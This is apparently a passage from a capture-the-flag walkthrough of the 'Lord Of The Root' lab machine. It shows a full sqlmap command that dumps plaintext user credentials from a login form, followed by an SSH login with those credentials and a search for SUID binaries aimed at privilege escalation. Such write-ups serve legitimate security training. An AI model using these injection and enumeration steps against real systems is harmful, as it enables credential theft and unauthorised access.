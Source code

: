 
Retrieving the user credentials.

```bash
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql -D Webapp -T Users -C id,username,password --dump
...
Database: Webapp
Table: Users
[5 entries]
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
| 1  | frodo    | iwilltakethering |
| 2  | smeagol  | MyPreciousR00t   |
| 3  | aragorn  | AndMySword       |
| 4  | legolas  | AndMyBow         |
| 5  | gimli    | AndMyAxe         |
+----+----------+------------------+
```


### Access via SSH

The credentials are in plain text, so we don't need to crack them, with the user smeagol, I was able to access via SSH.

```bash
smeagol@192.168.179.161's password: 
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic i686)

 * Documentation:  https://help.ubuntu.com/

                            .____    _____________________________                              
                            |    |   \_____  \__    ___/\______   \                             
                            |    |    /   |   \|    |    |       _/                             
                            |    |___/    |    \    |    |    |   \                             
                            |_______ \_______  /____|    |____|_  /                             
                                    \/       \/                 \/                              
 __      __       .__                                ___________      .__                   .___
/  \    /  \ ____ |  |   ____  ____   _____   ____   \_   _____/______|__| ____   ____    __| _/
\   \/\/   // __ \|  | _/ ___\/  _ \ /     \_/ __ \   |    __) \_  __ \  |/ __ \ /    \  / __ | 
 \        /\  ___/|  |_\  \__(  <_> )  Y Y  \  ___/   |     \   |  | \/  \  ___/|   |  \/ /_/ | 
  \__/\  /  \___  >____/\___  >____/|__|_|  /\___  >  \___  /   |__|  |__|\___  >___|  /\____ | 
       \/       \/          \/            \/     \/       \/                  \/     \/      \/ 
Last login: Tue Sep 22 12:59:38 2015 from 192.168.55.135
smeagol@LordOfTheRoot:~$ id
uid=1000(smeagol) gid=1000(smeagol) groups=1000(smeagol)
```

Listing the SUID binary files, three of them catch my attention.

```bash
smeagol@LordOfTheRoot:~$ find / -perm -4000 -type f 2>/dev/null 
...
/SECRET/door2/file
/SECRET/door1/file
/SECRET/door3/file
...
```
